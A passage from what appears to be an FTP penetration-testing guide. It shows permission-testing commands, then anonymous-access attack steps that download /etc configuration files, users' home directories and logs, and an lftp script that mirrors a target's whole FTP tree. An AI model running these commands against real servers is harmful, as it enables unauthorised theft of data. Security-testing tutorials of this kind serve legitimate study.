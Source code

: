 #### Advanced Permission Testing
```bash
# Test directory creation
ftp> mkdir test_directory
# 257 Directory created (success)
# 550 Permission denied (no create permission)

# Test file deletion
ftp> delete test_upload.txt
# 250 File deleted (success)
# 550 Permission denied (no delete permission)

# Test file renaming  
ftp> rename old_name.txt new_name.txt
# 250 Rename successful (success)
# 550 Permission denied (no rename permission)
```

---

## ⚔️ Attack Vectors and Exploitation

### Attack Vector 1: Anonymous Access Exploitation

#### Information Disclosure
```bash
# After gaining anonymous access
# 1. Map entire directory structure
ftp> ls -R > directory_structure.txt

# 2. Download configuration files
ftp> cd /etc
ftp> mget *.conf
ftp> mget *.cfg

# 3. Download user data
ftp> cd /home
ftp> ls -la
ftp> cd username
ftp> mget *

# 4. Download log files for information gathering
ftp> cd /var/log
ftp> mget *.log
```

#### Data Exfiltration Strategy
```bash
# Systematic data collection
#!/bin/bash
# ftp-exfiltration.sh
TARGET=$1
LOCAL_DIR="ftp-exfil-$(date +%Y%m%d-%H%M%S)"
mkdir $LOCAL_DIR
cd $LOCAL_DIR

# Connect and download systematically
lftp ftp://anonymous:anonymous@$TARGET << EOF
set ftp:list-options -la
mirror --verbose --parallel=3 .
bye
EOF

# Analyze downloaded content
```